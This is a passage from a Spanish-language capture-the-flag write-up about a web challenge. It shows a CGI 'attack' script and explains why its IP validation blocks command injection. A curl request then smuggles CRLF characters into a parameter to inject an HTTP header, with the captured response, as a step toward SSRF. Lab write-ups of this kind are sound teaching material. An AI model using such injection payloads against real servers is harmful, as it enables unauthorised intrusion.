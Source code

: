 ```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
  print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
  count = 1 # Increase this for an actual attack
  os.popen(f'ping -c {count} {ip_address(target)}')
  print(f'Location: ../?result=Succesfully attacked {target}!')
except:
  print(f'Location: ../?error=Hey {name}, watch it!')

print('Content-Type: text/html')
print()

```

- El funcionamiento es muy similar al caso anterior, pero con pequeñas variaciones.
- Se utiliza nuevamente el comando `ping` para atacar la dirección IP indicada.
- En este caso, también parece haber una inyección de comandos, pues el parámetro `target` se usa en la función `os.popen()`, pero en este caso hay una validación con la función `ip_address()`. Esta función genera una excepción si la cadena recibida no tiene el formato de una dirección IPv4 o IPv6 válida.
- En caso de generarse la excepción, no realiza el ataque y envía una redirección con un mensaje de error en el encabezado `Location`.

Llegados a este punto, tenía claro que el único recurso con el que podría interactuar directamente era `/cgi-bin/attack-domain` y que debía lograr interactuar con `/cgi-bin/attack-ip` (ya que su acceso estaba limitado). Aunque buscaba alguna manera de forzar un _SSRF_, al inicio únicamente era capaz de inyectar encabezados HTTP en la respuesta. Esto lo muestro a continuación, logrando que la respuesta incluyera el nuevo encabezado `New-Header: HFC` inyectando los caracteres de retorno de carro y salto de línea `(%0d%0a)`.

```sh
$ curl -i 'http://83.136.249.227:46378/cgi-bin/attack-domain?target=x&name=v%0d%0aNew-Header:HFC%0d%0a%0d%0a'
HTTP/1.1 302 Found
Date: Wed, 26 Mar 2025 03:14:46 GMT
Server: Apache/2.4.54 (Debian)
New-Header: HFC
Location: ../?error=Hey v
Content-Length: 282
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="../?error=Hey v">here</a>.</p>
<hr>
<--REDACTED-->
```
